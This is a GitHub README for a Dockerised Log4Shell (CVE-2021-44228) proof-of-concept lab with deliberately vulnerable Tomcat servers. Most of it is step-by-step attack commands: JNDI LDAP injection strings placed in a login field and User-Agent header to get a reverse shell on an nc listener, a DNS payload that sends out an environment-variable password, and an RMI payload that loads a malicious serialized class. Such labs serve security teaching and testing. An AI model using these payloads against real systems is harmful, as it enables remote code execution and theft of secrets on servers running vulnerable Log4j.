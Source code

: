 # log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell 

### Description

The demo Tomcat 8 server on port 8080 has a vulnerable app (log4shell) deployed on it and the server also vulnerable via user-agent attacks.

The remote exploit app in this demo is based on that found at https://github.com/kozmer/log4j-shell-poc

This demo tomcat server (Tomcat 8.5.3, Java 1.8.0u51) has been reconfigued to use Log4J2 for logging - a non-standard configuration.

A newer Bitnami server is now available on port 8888. It is also is configured for Log4J2 logging and is running Tomcat 9.0.55 and OpenJDK 11.0.13.

The RMI exploit against the Tomcat 9 / Java 11 server is described here: https://www.veracode.com/blog/research/exploiting-jndi-injections-java (Jan 3, 2019) by Michael Stepankin

The detection script will check for user-agent vulnerablities and is from here: https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6
 

### Prerequisites

This code requires Docker and Docker Compose

### Installation

``` 
git clone https://github.com/cyberxml/log4j-poc
cd log4j-poc
# edit docker-compose.yml to addjust the environment variables as needed.
#   POC_ADDR is the address of the cve-poc container
#   LISTENER_ADDR is the address of the 'nc' listener e.g. the docker host
# The listener IP address is the address of the machine on which you will run the netcat 'nc' listener
# This can be the local IP of the docker hostmachine.
docker-compose build
```

### Run Web App Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 172.17.0.1 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. Navigate to the web app on port 8080
    1. Navigate to http://172.17.0.1:8080/log4shell
        1. Enter the username: `admin`
        1. Enter the password: `password`
        1. Select the "login" button
        1. See the welcome screen 
    1. Return to login at http://172.17.0.1:8080/log4shell
        1. Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
        1. Select the "login" button
        1. Check for connection on your `nc` listener

### Run a User Agent Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 172.17.0.1 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. In a third terminal, run the following. The second IP is the docker host
    1. `curl -A "\${jndi:ldap://172.16.238.11:1389/a}" http://172.17.0.1:8080/log4shell`

### Run a DNS Exfil Demo on Recent Java 11 version

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:dns://172.17.0.1/\${env:POC_PASSWORD}}" http://172.17.0.1:8888/log4shell/`
1. The vulnerable web server will attempt to do a TXT lookup at the given IP. See log4j-dns_exfil.pcap


### Run an RMI RCE Demo on Recent Java 11 version

I am having issues with command line arg for ping target. So you have to compile yourself.

#### Compile 
1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In another terminal, Login to the cve-poc
    1. `docker exec -it log4j-poc_cve-poc_1 /bin/bash`
1. Kill running RMIServerPOC instance
1. Change to rmi-poc directory
    1. `cd /home/user/rmi-poc`
1. Edit RMIServerPOC.java to change 172.17.0.1 to your ping target
1. Recompile
    1. `javac -cp catalina.jar:. RMIServerPOC.java`
1. Run the Server
    1. `javac -cp catalina.jar:. RMIServerPOC 127.0.0.1`

#### Run RMI RCE Demo

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:rmi://172.16.238.11:1097/Object}" http://172.17.0.1:8888/`
1. The vulnerable web server will download a serialized malicious class from the RMI server for a class which already exists in the Tomcat environment.
1. This will ping the IP address defined in the compile section. 


### Detect UA Vulnerability
1. cd scripts
1. `python3 log4j_rce_check.py http://172.17.0.1:8080/log4shell --attacker-host 172.17.0.1:11389 --timeout=2`
1. you will have to kill the process, not sure yet why this hangs
